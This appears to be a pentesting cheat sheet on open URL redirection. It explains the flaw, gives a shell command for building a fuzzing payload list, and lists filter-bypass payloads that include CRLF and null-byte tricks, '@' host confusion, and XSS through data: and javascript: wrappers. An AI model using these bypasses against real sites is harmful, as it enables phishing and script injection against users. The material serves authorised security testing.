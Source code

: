 # Open-redirection

# Open URL Redirection
Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Fuzzing
Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.
```
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Exploitation

Using CRLF to bypass "javascript" blacklisted keyword
```
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" to bypass "http" blacklisted keyword
```
//google.com
```

Using "https:" to bypass "//" blacklisted keyword
```
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)
```
\/\/google.com/
/\/google.com/
```


Using "%E3%80%82" to bypass "." blacklisted character
```
//google%E3%80%82com
```


Using null byte "%00" to bypass blacklist filter
```
//google%00.com
```

Using "@" character, browser will redirect to anything after the "@"
```
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```


XSS from Open URL - If it's in a JS variable
```
";alert(0);//
```

XSS from data:// wrapper
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## Thanks to
* filedescriptor
* https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)
